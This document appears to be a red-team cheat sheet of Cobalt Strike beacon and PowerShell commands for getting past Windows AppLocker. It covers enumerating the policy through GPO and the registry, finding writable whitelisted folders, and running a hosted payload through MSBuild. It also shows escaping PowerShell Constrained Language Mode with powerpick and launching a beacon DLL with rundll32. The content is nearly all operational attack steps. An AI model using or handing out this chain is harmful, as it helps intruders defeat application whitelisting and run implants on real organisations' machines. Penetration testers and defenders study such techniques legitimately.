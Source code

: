 # Applocker

# Enumerate the Applocker policy via GPO

    beacon> powershell Get-DomainGPO -Domain dev-studio.com | ? { $_.DisplayName -like "*AppLocker*" } | select displayname, gpcfilesyspath

    beacon> download \\dev-studio.com\SysVol\dev-studio.com\Policies\{7E1E1636-1A59-4C35-895B-3AEB1CA8CFC2}\Machine\Registry.pol

    PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

# Enumerate the Applocker policy via Local Windows registry on machine 

    PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2"

    PS C:\Users\Administrator> Get-ChildItem "HKLM:Software\Policies\Microsoft\Windows\SrpV2\Exe"

# Using powershell on local system

    PS C:\Users\Administrator> $ExecutionContext.SessionState.LanguageMode
    ConstrainedLanguage

# Navigating Laterally via PSEXEC is fine, as service binary is uploaded in C:\Winodws path which is by default whitelisted

# Find the writable path within C:\winodws to bypass Applocker

    beacon> powershell Get-Acl C:\Windows\Tasks | fl

LOLBAS
# Use MSBuild to execute C# code from a .csproj or .xml file
# Host http_x64.xprocess.bin via Site Management > Host File
# Start execution using C:\Windows\Microsoft.Net\Framework64\v4.0.30319\MSBuild.exe applocker_bypass.csproj

# break out of PowerShell Constrained Language Mode by using an unmanaged PowerShell runspace

    beacon> powershell $ExecutionContext.SessionState.LanguageMode
    ConstrainedLanguage

    beacon> powerpick $ExecutionContext.SessionState.LanguageMode
    FullLanguage

# Beacon DLL (DLLs are usually not restricted by Applocker due to performance reason)

    C:\Windows\System32\rundll32.exe http_x64.dll,StartW
